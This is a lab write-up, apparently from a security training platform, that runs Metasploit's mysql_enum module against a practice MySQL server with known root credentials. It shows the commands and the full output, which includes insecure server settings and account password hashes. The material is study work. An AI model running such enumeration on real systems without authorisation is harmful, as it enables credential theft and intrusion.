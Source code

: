 > 🔬 [Metasploit - MySQL Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=120)

```bash
ip -br -c a
setg RHOSTS 192.64.22.3
setg RHOST 192.64.22.3
workspace -a MYSQL_ENUM
```

> **`auxiliary/admin/mysql/mysql_enum`**

```bash
search mysql_enum
use auxiliary/admin/mysql/mysql_enum
info
set USERNAME root
set PASSWORD twinkle
run
```

```bash
[*] 192.64.22.3:3306 - Running MySQL Enumerator...
[*] 192.64.22.3:3306 - Enumerating Parameters
[*] 192.64.22.3:3306 -  MySQL Version: 5.5.61-0ubuntu0.14.04.1
[*] 192.64.22.3:3306 -  Compiled for the following OS: debian-linux-gnu
[*] 192.64.22.3:3306 -  Architecture: x86_64
[*] 192.64.22.3:3306 -  Server Hostname: victim-1
[*] 192.64.22.3:3306 -  Data Directory: /var/lib/mysql/
[*] 192.64.22.3:3306 -  Logging of queries and logins: OFF
[*] 192.64.22.3:3306 -  Old Password Hashing Algorithm OFF
[*] 192.64.22.3:3306 -  Loading of local files: ON
[*] 192.64.22.3:3306 -  Deny logins with old Pre-4.1 Passwords: OFF
[*] 192.64.22.3:3306 -  Allow Use of symlinks for Database Files: YES
[*] 192.64.22.3:3306 -  Allow Table Merge: 
[*] 192.64.22.3:3306 -  SSL Connection: DISABLED
[*] 192.64.22.3:3306 - Enumerating Accounts:
[*] 192.64.22.3:3306 -  List of Accounts with Password Hashes:
[+] 192.64.22.3:3306 -          User: root Host: localhost Password Hash: *A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.64.22.3:3306 -          User: root Host: 891b50fafb0f Password Hash: 
[+] 192.64.22.3:3306 -          User: root Host: 127.0.0.1 Password Hash: 
[+] 192.64.22.3:3306 -          User: root Host: ::1 Password Hash: 
[+] 192.64.22.3:3306 -          User: debian-sys-maint Host: localhost Password Hash: *F4E71A0BE028B3688230B992EEAC70BC598FA723
[+] 192.64.22.3:3306 -          User: root Host: % Password Hash: *A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.64.22.3:3306 -          User: filetest Host: % Password Hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.64.22.3:3306 -          User: ultra Host: localhost Password Hash: *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
[+] 192.64.22.3:3306 -          User: guest Host: localhost Password Hash: *17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.64.22.3:3306 -          User: gopher Host: localhost Password Hash: *027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.64.22.3:3306 -          User: backup Host: localhost Password Hash: *E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.64.22.3:3306 -          User: sysadmin Host: localhost Password Hash: *78A1258090DAA81738418E11B73EB494596DFDD3
[*] 192.64.22.3:3306 -  The following users have GRANT Privilege:
[...]
```
